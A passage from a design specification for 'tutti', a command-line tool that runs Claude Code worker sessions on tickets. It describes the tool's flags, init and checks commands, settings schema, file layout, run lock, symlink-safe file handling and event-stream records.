(2026-10-26: 17:57-18:46 with a worker mid-ticket), so the maintainer chose keeping awake as the default with an opt-out in both places, the project's settings saying the repository's default and the user config overriding it for one person, as orchestra's `keep_awake` is in its settings. `--keep-awake` and `TUTTI_KEEP_AWAKE` are retired (`retiredFlags` in `src/cli/flags.ts`): hidden from --help, still taken with any value (`--keep-awake`, `--keep-awake=off`) so that scripts and habits don't break, and not read; the START block says so once, naming the flag, or the variable where the flag isn't given: `--keep-awake is no longer read: tutti keeps the machine awake unless keep_awake is false in .tutti/settings.json or ~/.config/tutti/config.json`.
- `--auto-answer`, `--auto-answer=10m`, `--auto-answer=false` (tutti-cmye): tutti answers the workers' questions with the option they recommend, rather than wait for you, for a run left going while you are away, overnight or out. Bare (or `on`), it answers at once; with a time, what has waited that long with the machine awake (§3.3) without an answer from you, so that you answer first when you are there, and the recommendation is taken when you aren't; `false` (or `0`, `off`) turns it off. A value that is none of these is a usage error. Off by default. It covers question tickets filed during the run (§5.1's Asked, below its table) and `AskUserQuestion` in the session (§4.5), never one that is `maintainer_only` or without well-formed options, one open before the run, or a permission request. It is chosen for each run, not in the settings, since it depends on whether you are there. The `START` line ends ` · auto-answer` (` · auto-answer after 10m`), the start record has `auto_answer` (§10), the title line has its pill (§7.2), each answer has its line and record, and the run's summary lists what it answered, with its choices and `bd list --all --label auto-answered` to find the question tickets later. Why it's safe enough: in this project's question tickets read on 2026-10-25, every one whose answer could be checked against its recommendation was answered with it, but for one about a fact of the machine; those that weren't choices, or were actions in your name, are what `maintainer_only` marks. orchestra has no such option: a departure on purpose. `--overnight` turns it on, answering at once (the maintainer's choice on 2026-10-25, over after 10m and over keeping them apart: nobody is there to answer in the night); `--auto-answer=false`, or a time, given with it overrides that.
- `--overnight` (tutti-kkb.46): runs the current tickets as `--tickets` does, or `--ticket <id>` and its subtickets, and never asks what to work on, once its pre-flight (§5 item 2) has cleared the run to work through the night. It keeps the machine awake whatever `keep_awake` says, as its merge checks would time out while the machine slept (on 2026-10-24 five tickets were set aside `CHECKS_FAILED` so), and turns on `--auto-answer` (above), whose own flag or variable overrides it. With `--feature` it is a usage error, as is `--force-overnight` without it. The `START` line says ` · overnight` after the scope, and the start record has `"overnight": true` (§10). There is no overnight badge on the title line: its keep-awake and auto-answer pills already say what it turned on, a departure on purpose from orchestra's blue `overnight` badge (§7.2). A ticket stuck in the night (`PAUSED`, `BLOCKED`, `TICKET_LIMIT`) is set aside rather than holding the run (§5 item 10).
- `--force-overnight`: with `--overnight`, starts the run though a pre-flight check failed, without asking, and says so.
- `--overnight-free-disk <GB>`: the free disk the pre-flight wants where the worktrees go, 20 by default, `0` not checking. A flag, not a setting: it's the machine's; orchestra's `overnight_free_disk_gb` in its settings is what init's import names and leaves out (§8.3).
- `--ticket-limit 2h`, `--limit N` (the most tickets this run starts; none by default, as orchestra 0.8.5's), `--worker-effort <level>`, `--worker-model <model>`
- `--organ-model`, `--organ-effort`, `--triage=false`, `--review=false`, `--notify=false`
- `--check-timeout`, `--check-full-timeout`, `--resolve-conflicts=false`
- `--plain`, `--no-mouse`, `--prompt <file>`, `--worktrees <dir>`
- new: `--billing api` (§4.13), `--usage-limit-wait 6h` (§4.12), `--claude <path>` (§12), `--colour-scheme <name>` (§7.11)

Flags are parsed with `effect/cli`. Each has a `TUTTI_*` variable (`TUTTI_CONCURRENT`, `TUTTI_TICKET`, …), read the way orchestra reads its on-or-off variables: `1`, `true`, `yes` or `on`; `0`, `false`, `no` or `off`; anything else is a setup problem.

A relative path in a flag (`--prompt`, `--worktrees`, `--claude`) is taken from the folder tutti was started in, as the shell completed it, so `cd repo/sub && tutti --prompt ./p.md` reads `repo/sub/p.md`, and `--prompt ../x.md` from a linked worktree reads beside that worktree (tutti-o6pv). In a variable (`TUTTI_PROMPT`, `TUTTI_WORKTREES`, `TUTTI_CLAUDE`), which stands for every run of the project, it is taken from the main checkout's top level, as the settings' paths are. A `--claude` with no `/` is a command name, looked up on PATH.

orchestra's unprefixed `orchestrate.sh` variables (`LIMIT`, `NOTIFY`, `TRIAGE`, `REVIEW`, `DONE_SO_FAR`, `AGENT_KIND`, `WT_ROOT`, `WORKER_PROMPT`) are **not** read (D5). `DONE_SO_FAR` has no replacement, since `--limit` counts only the tickets each run starts.

### 8.3 `tutti init`

The same two steps and flags as `orchestra init` (its `docs/setup.md`), with these changes:

- It writes `.tutti/` and `scripts/check-fast.sh` and `scripts/check-full.sh`. The runner format, the `SUITE:` and `FLAKY:` conventions and the `lock`/`unlock` helper are unchanged, so the runners orchestra wrote work as they are.
- **Settings there are kept**: init changes only what you answered or flagged, and fills in what is absent. A check's `command` is the runner only where the key is absent (or `--check-fast`/`--check-full` is given): one set to `null`, the project's choice to merge without that check, stays `null` (tutti-cglz). Where it changes nothing, the file is left as it is. Where it changes a key, it edits that key in the file's text, and the rest of the file, its indentation, one-line sections and line endings included, stays as it was (tutti-lx3f); `init --update` likewise rewrites only the `templates` section, and adds `"keep_awake": true` where the file has no `keep_awake` (tutti-22jf).
- **check-full.sh beside a kept check-fast.sh** is written from the check-fast.sh there afterwards, not the one the checks chosen would write: it is `exit 0` only where that check-fast.sh runs nothing either, so *create from scratch* with a check-fast.sh kept (*Replace scripts/check-fast.sh?*, No by default) writes a check-full.sh that runs it, and whether a check-full.sh there differs is judged beside the check-fast.sh answered for. orchestra writes `exit 0` there; tutti departs on purpose.
- **Workers** asks the concurrency and the MCP servers, and offers `CHANGELOG.md merge=union`. It no longer asks or checks for a terminal (Herdr, tmux or cmux). It runs the login probe (§4.13), which also reports the account, billing and permission mode in its summary, and checks that `bd` is there, offering to install Beads as orchestra does. With `concurrent` above 1, it says how much memory that takes (about 1 GiB per worker). It asks the concurrency as orchestra's init does: `1  · one at a time (safest)`, `2  · checks must cope with running side by side`, `3  · that, and room for three workers and their checks`, `4  · that, for four: a busy machine`, or `Custom…  · type a number, up to 16`, which then asks the number; it starts on the current setting's option, or on Custom… with the number filled in above 4. The line form offers the same choices by number.
- **Checks** runs the scout (§6.3), then *use them as they are*, *create from scratch* (the create-check-suite skill), *manual* or *not yet: leave them empty*, which does what `--no-checks` does. It also asks the setup command, the ticket prefix and the verifier. The verifier is asked only where it isn't in use (`.claude/agents/verifier.md` there and the worker prompt running it): one in use is kept, and `--force`, which replaces the worker prompt with the template, gives the new prompt its Verify section again, with a form or without; `--no-verifier` drops it. init keeps no log for the scout's `ORGAN` line, so its summary starts with `✓ scout  cost $0.4321`, the total of the scout's calls in OrganCost (§6.1), a caution where a call's result wasn't a success; it says so however init ends, a cancelled form, a stop or a refusal included, as the scout has spent it.
- **`--no-checks`** (`[=on|off]`, as `--no-mouse` is) leaves the checks for later, for a project with no code yet, such as a new repository holding only its spec, where the scout has nothing to find (tutti-g1wf). A spec run in a repository init hasn't set up sets it up as `--no-checks` does, its form in a terminal, and checks the checks with its checks gate once its environment ticket merges (§4.14, tutti-p1g2). No scout runs, and none of the Checks step's check questions is asked: neither *The project's checks*, nor the two checklists, nor *Also file tickets for untested areas?*, nor the replace questions; the setup command, the ticket prefix and the verifier are asked as before. A runner that isn't there is written as `--check-fast ""` and `--check-full ""` write it, checking nothing (`scripts/check.sh` doesn't become its suite); one that is there is kept byte for byte, as is the settings' check `command`: `--no-checks` never replaces a project's check. No test work is filed. The summary's line for each runner ends `the checks left for later`, and the Next lines say how to set them afterwards: `tutti checks`. With `--check-fast` or `--check-full` it is a setup problem, said with every other problem with the flags at once, as `--update`'s conflicts are. Without a terminal it asks nothing, as the other flags do.
- **`tutti checks`** puts init's Checks step on its own, in the main checkout of a project init has set up, between runs (tutti-scod): the way back to the checks for a project set up with none yet (`--no-checks`), or whose checks have changed, which only init run again with `--check-fast` or `--check-full`, or an edit of the runners, gave before. It is the same step in the same form (`src/init/form.ts`'s `checks`), titled `checks`, its stepper naming Checks alone: the scout, *The project's checks*, the two checklists, *Also file tickets for untested areas?*, and the replace questions for runners that are there and differ; then the setup command, asked where init asks it. None of init's other questions, the ticket prefix and the verifier among them. It writes what init's Checks step writes (`src/init/setChecks.ts`), staged and put in together, the settings last, so that a failure or a cancel leaves the project as it was: the runners, the create-check-suite skill where test work needs it, and the settings' check keys (`checks.fast`, `checks.full`, `checks.setup`), with the skill's template version and the features map as a shared file where it files test work. It files the test work init would, and prints init's summary lines for what changed, then the Next lines, the files to commit among them; no login probe, requirements or Beads step. `--check-fast`, `--check-full`, their time limits and `--setup` give the answers without asking, as init's do; without a terminal it asks nothing, and with none of those flags either it says what it would need and exits 2. It refuses, exit 2, in a linked worktree, while a run holds the repository's lock (holding it itself while it writes, as init does, `"init": true`), and in a project init hasn't set up (no `.tutti/settings.json`), which it says to run `tutti init` in first. init's Next lines, where `scripts/check-fast.sh` checks nothing and no test work was filed to set it up, and its line for a runner that checks nothing yet (`it checks nothing yet (tutti checks gives it one)`), point to it.
- **A check-full.sh that runs nothing** (`exit 0` and nothing else) is written again to run `scripts/check-fast.sh` where `tutti checks` or init gives check-fast.sh suites that check something (a choice of checks, or `--check-fast`) and check-full.sh isn't given its own: kept, the full check would check nothing once check-fast.sh is given its suites (tutti-scod). Otherwise, init run again without check flags or answers among them, it is kept as it is, as is one that runs anything.
- **An untrusted main checkout.** When the probe finds one (§4.13), init explains that Claude Code ignores the project's allow rules there. It offers to mark it trusted, naming the file and the key it would set: `projects["<main checkout>"].hasTrustDialogAccepted: true` in the user's `.claude.json` (in `CLAUDE_CONFIG_DIR` when that is set), Claude Code's own suggested fix. It writes only after you say yes. It re-reads the file just before writing, changes that one key and leaves everything else, and replaces the file atomically (§ 3.3 "Files written whole": through a link to it, a temporary file beside the file it points at, renamed over it, with the same mode, `0600` for a new one). Declined, it prints the other fix: run `claude` once in the main checkout and accept the trust dialog. After writing, it runs the probe again to confirm the line is gone.
- Test-work tickets are labelled `tutti-tests`.
- **Test work filed again**, on purpose unlike orchestra, which files a ticket again once the one before is closed. init run again never files a test-work ticket that one of the same title and label is open for; it files one again whose earlier ticket is closed only where this init wrote or replaced a runner (`check-fast.sh` or `check-full.sh`). Runners it left as they were are those the closed ticket saw to, and a solo P1 ticket to check them again would hold the next run for nothing (tutti-ibti).
- **Import.** In a project with `.orchestra/` and no `.tutti/`, init offers to import the worker prompt and the settings it understands (the checks, timeouts, concurrency, `keep_awake`, MCP names, `exclude_types`, footprint, `resolve_conflicts`, `check_hand_backs`, `environment_hold`, setup, `worker_permission_mode`, whose `manual` is `default`). It names what it can't import, with why: a key tutti has no place for (`terminal`, `templates`, `usage_limit_wait`, which is `--usage-limit-wait`, `overnight_free_disk_gb`, which is `--overnight-free-disk`, `spec_timeout`, `spec_effort`, `questions`) says so, apart from one it doesn't know. Settings without a `worker_permission_mode` tutti takes get a caution that tutti's workers run in `auto` unless `workers.permission_mode` says otherwise; where orchestra's is unset, it adds that orchestra's workers ran in the mode your Claude Code settings choose. An imported worker prompt keeps your changes but needs the changes in §4.11, which init lists. `.orchestra/` is left as it is.
- The run lock is held while init changes the project, as `orchestra init` holds it.
- **The setup is written as one**, on purpose unlike orchestra, whose init writes file by file and leaves a half setup where a write fails. init stages the setup's files (the worker prompt, the runners, the skill, the verifier, the settings, the README's section, the `.gitignore`, `.gitattributes`) in memory as it plans them, then writes each to a temporary file beside its own, and once all are written renames each over it, the settings last. A write or rename that fails takes back what it had done (the temporary files, the folders it made, the files it replaced): the setup is left as it was, and init lists the steps it took before, names the file that failed and why, and exits 2. Putting the files in runs to its end once begun, as it is bounded: Ctrl+C there, in init or `init --update`, waits for it rather than leave temporary files beside the project's and a half-renamed set. A project is set up once `.tutti/settings.json` is there (§ 5 item 1): a worker prompt without it is a setup init didn't finish, and a run says to run `tutti init`.
- **The requires list** (§8.4), as orchestra 0.9.1's init: it writes the README's section on what to install from the list into a `README.md` that has none (where the list has entries) and keeps it in step, and after the login probe checks the list as a run's start does, installing what it can, a line of its summary for each entry. The import takes orchestra's `requires` as it is.
- **Template versions**, as orchestra 0.9.0's. `settings.json`'s `templates` records the version of tutti's worker prompt, verifier and create-check-suite skill templates the project's files came from (the skill's on purpose, as orchestra doesn't version its own: a project hears of the skill's changes, such as check-fast run three times to catch a flaky test and check-full once), as init writes them (`src/init/templates.ts` lists each version's changes: the section, what changed, and words only the new text has). A project's file that records an older version, or none (set up before, or imported from orchestra), and lacks a change's words, is older than the template: a run says so in a `templates:` note under its `START` line, naming the sections changed since and what changed in them, and init says it of the files it keeps. `tutti init --update` rewrites only those sections from the templates, keeping the rest of each file, records the versions, prints the diff and leaves the commit to you. It writes its files as one, as init writes the setup, the settings last: a write that fails leaves them as they were. It asks nothing and takes no other flag. A `.claude/agents/verifier.md` without the verifier template's opening words or its sections is the project's own subagent, not a copy: it takes none of the template's changes, and `init --update` says it is the project's own and records no verifier version for it (tutti-u9in, tutti-eluw). A change to a template is a new version of it: a test pins the templates.

### 8.4 `.tutti/settings.json`

Plain JSON: no comments, which the example below doesn't need. It is defined with Effect Schema and validated on read. An unknown key is a setup problem naming it; `$schema` is allowed. Times are strings (`"30m"`).

```json
{
  "$schema": "https://raw.githubusercontent.com/noesis-sol/tutti/main/schema/settings.json",
  "version": 1,
  "concurrent": 2,
  "keep_awake": true,
  "checks": {
    "fast": { "command": "scripts/check-fast.sh", "timeout": "30m" },
    "full": { "command": "scripts/check-full.sh", "timeout": "60m" },
    "own": { "command": null },
    "setup": { "command": "bun install --frozen-lockfile", "files": ["bun.lock"] }
  },
  "requires": [
    { "name": "jq", "check": "command -v jq", "install": "brew install jq", "platforms": ["darwin"] }
  ],
  "workers": {
    "mcp_servers": ["postgres"],
    "permission_mode": "auto",
    "effort": "medium",
    "model": null,
    "ticket_limit": "2h",
    "ask_user_question": true
  },
  "templates": { "worker_prompt": 5, "verifier": 2, "check_suite_skill": 1 },
  "organs": { "effort": null, "model": null, "triage": true, "review": true },
  "spec": { "timeout": "60m", "effort": "high" },
  "queue": { "exclude_types": ["epic"], "footprint": true, "shared_files": ["test/FEATURES.md"] },
  "vendored": [],
  "merge": { "resolve_conflicts": true, "resolve_timeout": "20m", "check_hand_backs": 2, "train": 1 },
  "environment_hold": { "count": 2, "window": "2m", "probe": "10m" },
  "ui": { "colour_scheme": "orchestra" }
}
```

- `keep_awake` says whether the project's runs keep the machine awake (§8.2): `true` by default, which `tutti init` writes and `tutti init --update` adds where it is missing, so that the project sees the key; `false` turns it off, unless the user config's `keep_awake` says otherwise for that person, or the run is `--overnight`. Read again since tutti-22jf, reversing tutti-v0tn, which had retired it for `--keep-awake` (§8.2 says why). init's import takes orchestra's `keep_awake` as it is.
- `queue.shared_files` names the files whose overlap doesn't hold two tickets apart (§5 item 5): those nearly every ticket edits in place, whose conflicts are cheap to resolve, as paths or globs, a name without a slash matching in any folder and one with a slash from the repository's top, as `checks.setup.files` match. `tutti init` lists the features map the create-check-suite skill writes (`test/FEATURES.md`, or the first of `tests/`, `test/`, `e2e/` and the top that has it or, failing that, exists; else the bare name) as it files the test work, unless a shared file there matches it already, and lists a map the project has where the settings have no `queue.shared_files` yet. A departure from orchestra, which has no such key, on purpose: mnemos's run of 2026-10-23 held tickets back 519 minutes for overlap, most of it over its `test/FEATURES.md`. `[]` by default.
- `vendored` names the paths that are no part of the project's own files, as globs matched as `queue.shared_files` are: copies of other projects' files, as a git subtree, which the predictor doesn't list and no footprint names (§5 item 5, §6.2). For a project that doesn't want `linguist-vendored` in `.gitattributes`, which counts as well; `tutti init` writes neither. None by default.
- `merge.train` is orchestra's `merge_train`: how many tickets waiting to merge are checked ahead of their turn, each rebased onto the branch ahead as that one is checked, and merged with no second check when it merges as checked (`src/run/mergetrain.ts`); `0` checks each in its turn alone, and none is checked ahead while the run holds at the machine's cap. 1 by default.
- `requires` is orchestra 0.9.1's requires list: what the project's machine must have, each entry a `name` (letters, digits and `. _ + -`, each once), a `check` command, and an `install` command or a `manual` step for a person, one of the two, optionally limited to `platforms` `darwin` or `linux`. An install that runs `sudo`, `su`, `doas` or `pkexec` is a setup problem: it runs without a terminal. Each run checks the list in the main checkout before its first ticket and any worker it carries over (`src/run/requires.ts`): the checks side by side, each within a minute; for one that fails, its install, one at a time within `checks.fast.timeout`, its output in `.tutti/run/requires-<name>.log`, then the check again. `REQUIRES:` lines under the START block say what it did, and what is still missing stops the run with `REQUIREMENTS_MISSING: <name> (<its manual step, or why its install failed and where its output is>); …`, exit 2, nothing started. A merge that changes the list on the base has the run take the new one (`REQUIRES: <id>'s merge changed the requirements in .tutti/settings.json on <base>: they are checked before the next ticket starts`) and check it again, as at its start, before the next ticket starts: what is still missing stops the run `REQUIREMENTS_MISSING` too, the running tickets finishing first (a `HOLD` line), as orchestra 0.9.1's `takeRequires` and `recheckRequires`; the workers started or resumed from then on are told the list as it is now (a resumed one in its resume's message, §4.1). One that doesn't decode is `SETTINGS_UNREAD`, and the run's list stays. The README's section on what to install is generated from the list, between `<!-- tutti:requires -->` and `<!-- /tutti:requires -->` (`src/project/requires.ts`), and a run's start warns `README_STALE` where it differs. Workers' rules name the list and its entries (§4.11). `[]` by default.
- `spec.timeout` and `spec.effort` are orchestra's `spec_timeout` and `spec_effort`, which init's import takes there: how long a headless spec breakdown may take, and the effort it runs at (§4.14); `60m` and `high` by default, `null` effort leaving it to Claude Code. A section, as `organs` is, rather than orchestra's two flat keys.
- `checks.own.command` is orchestra's `check_own`: a worker's check of its own change, such as `scripts/check-own.sh`, which the note on running a check once names in place of the merge check (§4.11). tutti never runs it; its files count as no ticket's in footprints, as the other checks' do. None by default.
- `workers.mcp_servers` absent means no servers, unlike orchestra (§15, Q5).
- `workers.effort` absent means `high`, as orchestra's (orchestra-jvi4), for workers, the login probe and the feature interview; `null` leaves the effort to Claude Code.
- `templates.worker_prompt`, `templates.verifier` and `templates.check_suite_skill` are the versions of tutti's templates the worker prompt, the verifier and the create-check-suite skill came from (§8.3); 0 by default, for files whose text is read instead.
- `workers.permission_mode` is `auto` (default), `default` or `acceptEdits`; anything else is a setup problem.
- `ui.colour_scheme` is the project's default colour scheme (§7.11). Your user config's choice wins over it. A scheme that can't be used falls back to `orchestra` with a warning, never a setup problem.

The JSON Schema is generated from the Effect Schema (`JsonSchema`) and published, so editors complete it.

### 8.5 The user config

`$XDG_CONFIG_HOME/tutti/config.json` (`~/.config/tutti/config.json` by default; `~` is HOME when it is an absolute path, else the account's home folder, so that an empty HOME doesn't put it under the current folder; the update check's cache, `~/.cache/tutti`, likewise) holds per-person preferences: `mouse`, `notify`, `billing`, `appearance` (`auto`, `light` or `dark`), `colour_scheme` (§7.11) and `keep_awake` (§8.2), a boolean over the project's `keep_awake`, or `null` (the default) for the project's. Its JSON Schema is published as `schema/user-config.json`, as the settings' is.It is plain JSON, defined with Effect Schema like the settings. The project's settings hold none of these but the colour scheme, and for that the user config's choice wins. Flags override both. Your own colour schemes go in `colour-schemes/` beside it.

---

## 9. Files

### 9.1 Layout

```
.tutti/settings.json             committed: the project's settings
.tutti/worker-prompt.md          committed: the worker prompt (built-in template, `TICKET_ID` replaced)
.tutti/colour-schemes/           committed, optional: the project's colour schemes (§7.11)
.tutti/specs/<name>              committed: a spec run's copy of a spec from outside the repository (§4.14)
.tutti/.gitignore                committed: ignores the three below
.tutti/tutti.log                 the log, for people
.tutti/reports/                  run reports (<start time>.md)
.tutti/run/                      in the main checkout:
  events.jsonl                     the event stream (§10)
  state.json                       carry-over: workers, their session IDs, why each was suspended
  attention/                       open requests and `tutti answer`'s answers (§4.5)
  workers/<id>/messages.jsonl      tutti's transcript of each worker (§4.4)
  workers/<id>/stderr.log          its Claude Code's stderr
  check-full.log                   the last failing full check's output
  feature-request.md               the interview's description
  spec-update.md                   a spec's change and its tree, for the breakdown that updates it (§4.14)
                                 in a worktree: check.log, setup.log
scripts/check-fast.sh            committed: the merge check
scripts/check-full.sh            committed: the full check
<git-common-dir>/tutti.lock      the run lock (§9.2)
```

The worktree files are excluded through `info/exclude`, as orchestra does. The symlink guard (`RUN_FILES_OUTSIDE`) is kept: files under a worktree's `.tutti/run/` are opened relative to a directory handle that refuses to follow a link out of the worktree. In Bun, this is `openat` with `O_NOFOLLOW` per path component, through `bun:ffi` or a small native helper; settle which in M0. Files in `attention/` are created exclusively (`O_EXCL`), mode 0600. What the guard opens must be a regular file (a folder where it asks for one): the last component is opened with `O_NONBLOCK`, checked with `fstat` and `O_NONBLOCK` cleared, so a named pipe, a socket or a device put at a run file's, an answer file's or a transcript's name is refused at once, naming what it is, rather than holding the open, which `bun:ffi` makes on the JavaScript thread, until its other end opens. A truncating open never truncates a file with more than one link, which may be another file of the same user hard-linked to a run file's name (the main checkout's `.git/config`, say): it opens without `O_TRUNC`, truncates a file with one link, and for one with more unlinks the name through the guarded parent descriptor (`unlinkat`) and creates the file afresh (`O_EXCL`), leaving the other file as it was.

The main checkout's own files under `.tutti/` go through the same guard: a merged ticket can leave a symbolic link where one was, as git replaces an ignored file with a committed link, and nothing is written through it. The log is opened for appending below the checkout (a link at `.tutti` or `tutti.log` stops the run before it starts, as a run that can't open its log does); `state.json` and a report are written whole by `writeFileUnder` (`src/native/libc.ts`): their folder opened through the guard, the name refused where it is a link or not a regular file, the bytes written to a temporary file created in that folder (`O_EXCL`), synced and renamed over the name on the folder's descriptor (`renameat`). `state.json` is read through the guard too (`openUnder`, read-only): a missing file or folder is no state, and a link at `.tutti`, `.tutti/run` or `state.json` is `StoreUnreadable`, naming the link and quoting nothing behind it, which stops the run before it starts. `tutti init --prefix` reads it the same way to tell whether the last run left workers, and a refusal there is a reason of its own not to rename the tickets, as what the next run would carry on with can't be told. A refused write of `state.json` is `StoreWriteFailed`; a refused report is `report not saved`. Missing folders are made one at a time, none through a link.

**Times for people** are local, and come from one module, `src/run/localTime.ts`: the log's stamp, the event stream's `time`, dates, `14:05`, the report's name (`2026-10-17-090503.md`) and its title's span, and a usage limit's reset (§4.12). The log dates each line `2026-10-17 09:05:03 +02:00`, with its UTC offset, a departure from orchestra on purpose: without it the hour the clocks go back over reads twice. The report's span gives the end's date when it differs from the start's: `2026-10-17 23:10–2026-10-18 01:40`.

The hook files, the rules file, the prompt file, `mcp.json` and `feature.json` go. MCP definitions are passed in memory (§4.6) and the interview files through the breakdown's tools (§4.10).

### 9.2 The run lock

It is `flock(LOCK_EX|LOCK_NB)` on `<git-common-dir>/tutti.lock`, so the system releases it however tutti exits, `kill -9` included.

- **How it is taken.** Bun has no `flock` in its standard library, so tutti calls libc's through `bun:ffi` (macOS and Linux both have it).
- **Close-on-exec.** The file is opened with `O_CLOEXEC`, and M0 checks the flags Bun uses. A child that inherited the descriptor (a `claude`, a git command, a check) would keep the lock after tutti dies, and the next run would be refused.
- **Never through a link.** The git folder is writable from every worktree, so a worker could put a symbolic link at the file's name, or a hard link to a file of its user's, and tutti would write its JSON over that file and empty it on release. The file is opened with §9.1's guard (`O_NOFOLLOW`, a regular file only), one with more than one link is refused, and the run then fails to take the lock; the holder is read from the locked descriptor, never again by name. The probe `tutti plan --apply` makes (§8.1) opens it the same way. orchestra's file is opened alike.
- **What the file holds**: JSON naming the run that holds it (PID, start time, version, branch, scope, feature or spec, and `"init": true` for init). A spec run's names its spec as it takes the lock, and its root epic as its scope once the breakdown has filed it (§4.14).
- **A second run** is refused with exit 2: `tutti is already running in <repo> (pid 44497, since 08:31, main)`. While init holds the lock it says so, as orchestra says `orchestra init`: `(tutti init, pid 44497, since 08:31, main)`.
- **On release** tutti empties the file before its descriptor closes, so it never names a run that has ended; whether a run is going is whether a process holds the lock (`lsof -t <git-common-dir>/tutti.lock`). orchestra leaves its file naming the last run.

**orchestra's lock.** tutti also takes `<git-common-dir>/orchestra.lock` for the same span, writing the JSON orchestra writes there (`pid`, `started`, `version` as `tutti <version>`, `branch`), and empties it on release as it does its own. An orchestra started meanwhile then refuses with its own message, naming tutti's PID. If orchestra holds that lock, tutti refuses with exit 2: `orchestra is running in <repo> (pid …)`.

---

## 10. Event stream

`.tutti/run/events.jsonl`: one JSON object per line, appended with a single write, every run kept. Records are defined with Effect Schema. Every record has `v` (1), `time`, `run` and `kind`. The kinds are orchestra's (`start`, `info`, `dispatch`, `queue`, `closed`, `deferred`, `asked`, `answered`, `waits`, `reopened`, `triage`, `warn`, `hold`, `drain`, `resume`, `probed`, `stop`, `done`, `full_check`, `end`), with these changes:

| `kind` | New or changed | Fields |
|---|---|---|
| `phase` | new: a ticket moved from one phase to another (§5.1) | `ticket`, `from` (absent as it enters the run), `to` (absent as it leaves it, gone from `bd ready`), `cause`, and the phase's details where it has them (`place`, `step`, `attempt`, `why`) |
| `attention` | new: a worker waits on you | `ticket`, `request` (ID), `type` (`permission`, `question`, `elicitation`), `tool` and `summary` (permission) or `questions` (question), `default_to_no`; `auto_answering: true` for a question `--auto-answer` answers at once, which doesn't notify (§7.9) |
| `asked` | `auto_answering` added | orchestra's, and `auto_answering: true` when `--auto-answer` answers the question at once (§5.1), which doesn't notify (§7.9) |
| `attention_answered` | new | `ticket`, `request`, `answer` (`allow`, `deny`, `allow_run`, or the chosen labels), `via` (`screen`, `answer_command`, `auto_answer` for `--auto-answer`'s, §4.5, or `overnight` for tutti's denial as an overnight run sets the ticket aside, §5 item 10), `after_ms`; `cancelled: true` when the SDK withdrew it |
| `auto_answered` | new: tutti answered a question ticket by `--auto-answer` (§5.1), the log's `AUTO_ANSWERED` | `ticket` (the one waiting on it), `question`, `title` (the question's), `option` (the recommended one, chosen) |
| `denied` | new: the classifier, the safety check, a rule or the mode denied a tool call | `ticket`, `tool`, `reason_type` (`classifier`, `safetyCheck`, `mode`, `rule`, or another the SDK gives), `reason` |
| `usage_limit` | new | `status` (`warning`, `rejected`, `lifted`), `limit` (`five_hour`, …), `resets_at`, `utilization` |
| `slept` | new: the machine slept (`SLEPT`, §5 item 15), its time not counted against the run's limits | `from`, when the run last saw it awake, `to`, when it woke, `seconds`, to a tenth |
| `battery` | new: the battery, discharging, fell to 20% or to 10% (`BATTERY`, §5 item 16), once each per discharge; at 10% it notifies | `level`, the percent read; `threshold`, `20` or `10` |
| `usage_window` | new: a figure of one of the account's windows, the first the run hears and each that differs (§4.12) | `window` (`five_hour`, `seven_day`, …), `utilization`, `resets_at` |
| `message` | new: you sent a worker a message | `ticket`, `length` (the text is recorded nowhere) |
| `steered`, `released` | new | `ticket` |
| `suspended` | new: a worker's session was suspended as the run ended | `ticket`, `session`, `why` |
| `resumed` | new (the log's `RESUMED`) | `ticket`, `session`, `why` (`suspended`, `answered`, `gone`, `hand_back`, `set_aside`) |
| `turn` | new: a worker's turn ended, from its SDK result | `ticket`, `session`, `subtype`, `is_error`, `cost_usd` and `tokens` (by model: `input`, `output`, `cache_write`, `cache_read`), the turn's share of the session's running totals, `turns` (`num_turns`), `duration_ms`, `api_ms` |
| `check` | new here, orchestra's: a check or setup ended | `suite` (`merge`, `recheck`, `fix`, `full`, `setup`), `ticket` (none for the full check's), `command`, `seconds`, `result` (`passed`, `failed`, `timed_out`, `not_run`), `output`, `train` |
| `organ` | new: an organ call ended | `organ`, `ticket`, `outcome` (`answered`, `unpriced`, `no_result`), `cost_usd`, `turns`, `duration_ms`, `session` |
| `ticket_end` | new: a ticket's part in the run ended, or ended again | `ticket`, `outcome` (`merged`, `no_change`, `set_aside`, `needs_you`, `stopped`, `queued`), `phase`, `why`, `seconds`, `turns`, and what it spent, as below |
| `closed`, `deferred`, `warn` with `aside` | orchestra's `phases`, `hand_backs`, `carried`, `tokens` added, and `cost_usd`; a `deferred` record's `detail` is `set aside overnight: <stop>` for a ticket an overnight run set aside (§5 item 10) | |
| `end` | orchestra's `tokens` and `organs` added, and `cost_usd` | |
| `start` | `terminal` removed; `billing`, `permission_mode`, `auto_answer`, `overnight` and `spec_source` added | `version`, `repo`, `branch`, `scope`, `feature`, `spec` (a spec run's spec, its path, `scope` its root epic, §4.14), `spec_source` (the URL a spec was fetched from, without its query and fragment; tutti's own), `concurrency`, `billing`, `permission_mode`; `auto_answer` with `--auto-answer`, how long a question waits for you first in ms, 0 for at once; `overnight: true` for an overnight run cleared by its pre-flight (§5 item 2) |
| `hold` | `USAGE_LIMIT` added; `lifted: true` when a hold is lifted | |
| `stop` | `TERMINAL_FAILED` removed: sessions that don't start hold the run as `ENVIRONMENT`; `CHECKS_HELD` added (§4.14) | |
| `checks_gate` | new: a spec run's checks gate ended (§4.14 "The checks gate"), the log's last `CHECKS_GATE` line | `detail` (`passed`, `empty`, `failed`, `timed out`, `not run`, `answered`, `waiting`, `skipped`), `ticket` (the environment ticket), `ran` (each check it ran: `check`, `setup`, `fast` or `full`, `seconds`, `outcome`), `seconds`, `output` (where the failed check's whole output is), `question` (the one filed or waited on), `changed: true` where its checks were set in `tutti checks`' form |

**What runs spend.** The SDK's result messages say what each turn cost and used, which orchestra could only read from transcripts, so the records give a ticket's cost as well as orchestra's time and tokens, under orchestra's field names where the meaning is the same (`check`'s `suite`, `seconds`, `result`; `phases`, `hand_backs`, `carried`, `tokens`; `end`'s `organs`), so one set of queries reads both streams. A result's `total_cost_usd` and `modelUsage` are the session's running totals: cumulative across a query's turns, and a resumed session goes on from those its transcript saved (the SDK's `sdk.d.ts`, and a live contract test). `Spending` (`src/run/spending.ts`) keeps each session's last totals in the run, a session resumed from an earlier run starting from its last result in its ticket's transcript (AgentHost reads it back as the session opens), and a `turn` record gives the difference; a total lower than the last started again from 0 (`/clear`), and its share is the whole; a zeroed crash result counts as nothing. A ticket's phases are counted by the ledger as it moves (`working` for Working, `waiting` for ToMerge, `merging`, `resolving`, `fixing`), from when the run first took it up; its `ticket_end` comes after the records its ending writes. A ticket the run took up and left back in the queue as it ends (Waiting for a merge, the probe or a setup, or Queued or HeldBack after it was requeued) has no RunEnded to move it, so the run's end writes its `ticket_end` as it stands, outcome `queued`, its phase and what a Waiting ticket 